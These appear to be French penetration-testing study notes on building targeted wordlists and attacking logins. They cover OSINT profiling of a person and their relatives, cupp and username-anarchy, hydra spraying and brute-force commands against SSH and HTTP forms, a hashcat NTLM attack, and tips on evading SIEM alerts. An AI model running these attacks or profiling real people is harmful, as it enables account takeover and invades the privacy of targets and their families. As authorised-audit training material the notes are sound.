

> [!danger] Avertissement légal
> Les techniques décrites dans ce document doivent être utilisées exclusivement dans le cadre d'audits de sécurité autorisés et sur des systèmes pour lesquels vous possédez une autorisation écrite explicite. Toute utilisation non autorisée est illégale.



## Reconnaissance et OSINT

La phase de reconnaissance est déterminante pour la qualité des listes générées.

### Sources d'information
- Réseaux sociaux (LinkedIn, Twitter, Facebook)
- Sites web d'entreprise (pages contact, organigrammes)
- Fuites de données (Have I Been Pwned, BreachForums)
- Annuaires et registres publics (WHOIS, GitHub, Pastebin)

### Données cibles
- Identité : Nom, prénom, surnoms
- Dates : Naissance, événements marquants
- Entourage : Conjoint, enfants, animaux
- Environnement : Ville, université, entreprises précédentes
- Centres d'intérêt : Sports, films, marques, équipes favorites

## Utilisation de wordlists standards

Avant de générer des listes personnalisées, il est crucial d'utiliser des listes éprouvées qui contiennent les mots de passe les plus courants.

- **RockYou.txt** : La référence absolue pour les mots de passe faibles.
- **SecLists** : Une collection complète pour le fuzzing et le brute-force.

```bash
# Installation sur Kali Linux
sudo apt install seclists -y

# Emplacement standard
ls -l /usr/share/wordlists/rockyou.txt
ls -l /usr/share/seclists/Passwords/
```

## Génération de noms d'utilisateur

L'outil **username-anarchy** permet de générer des combinaisons d'identifiants basées sur des conventions courantes.

### Installation
```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

### Utilisation
```bash
./username-anarchy <Prénom> <Nom> > username_list.txt
```

Exemple pour "Jane Smith" :
```bash
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

## Génération de mots de passe

L'outil **cupp** (Common User Passwords Profiler) génère des listes de mots de passe basées sur le profil de la cible.

### Installation
```bash
sudo apt install cupp -y
```

### Utilisation interactive
```bash
cupp -i
```

Exemple de saisie :
```text
> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990
> Partners name: Jim
> Partners nickname: Jimbo
> Partners birthdate (DDMMYYYY): 12121990
> Pet's name: Spot
> Company name: AHI
> Do you want to add key words? Y/[N]: y
> Please enter words (comma separated): hacker,blue
> Do you want to add special chars at the end? Y/[N]: y
> Do you want to add random numbers? Y/[N]: y
> Leet mode? (i.e. leet = 1337) Y/[N]: y
```

## Filtrage des mots de passe

> [!warning] Account Lockout Policy
> Attention au blocage des comptes après plusieurs tentatives infructueuses. Vérifiez toujours la politique de verrouillage de la cible avant de lancer une attaque massive.

Le filtrage permet de réduire la taille des wordlists en respectant les contraintes techniques (complexité).

### Filtrage avec grep
```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

## Gestion des verrous de compte (Account Lockout Policy)

Il est impératif d'identifier le seuil de verrouillage pour éviter de bloquer les utilisateurs légitimes.

- **Reconnaissance active** : Tenter 3-5 tentatives infructueuses sur un compte non critique pour observer la réponse du serveur.
- **Temporisation** : Si le compte se déverrouille automatiquement après X minutes, ajustez la vitesse de votre outil (ex: `-t` dans Hydra).

## Analyse des logs de connexion

L'analyse des logs permet de détecter si vos tentatives sont interceptées par un SIEM ou un EDR.

- **Windows** : Event ID 4625 (Failed Logon).
- **Linux** : `/var/log/auth.log` ou `/var/log/secure`.

```bash
# Exemple de recherche d'échecs sur Linux
grep "Failed password" /var/log/auth.log
```

## Attaques par force brute

> [!tip] Password Spraying
> Le **Password Spraying** est préférable au brute-force pour éviter de déclencher des alertes SIEM. Il consiste à tester un seul mot de passe courant contre une large liste d'utilisateurs.

### Techniques de Password Spraying
Au lieu de tester 1000 mots de passe sur 1 utilisateur, testez 1 mot de passe courant (ex: `Password2023!`) sur 1000 utilisateurs.

```bash
# Exemple avec Hydra (spray d'un mot de passe unique)
hydra -L users.txt -p 'Password2023!' IP ssh
```

### Utilisation de **hydra**

> [!warning] Vérification préalable
> Toujours vérifier les conditions de succès/échec du service cible avant de lancer **hydra**.

#### Attaque sur formulaire HTTP
```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

#### Attaque sur SSH
```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s 22 ssh -t 4
```

## Génération avancée avec **hashcat**

> [!info] Performance
> L'utilisation de wordlists trop volumineuses peut impacter la performance du réseau et la discrétion.

### Attaque par dictionnaire
```bash
hashcat -m 1000 -a 0 hashes.txt jane-filtered.txt --force
```

| Flag | Description |
| :--- | :--- |
| **-m 1000** | Type de hash (NTLM) |
| **-a 0** | Mode d'attaque par dictionnaire |
| **--force** | Ignore les avertissements de sécurité matérielle |

## Références
- **Password Spraying**
- **OSINT Framework**
- **Password Cracking**
- **Hydra**
- **Hashcat**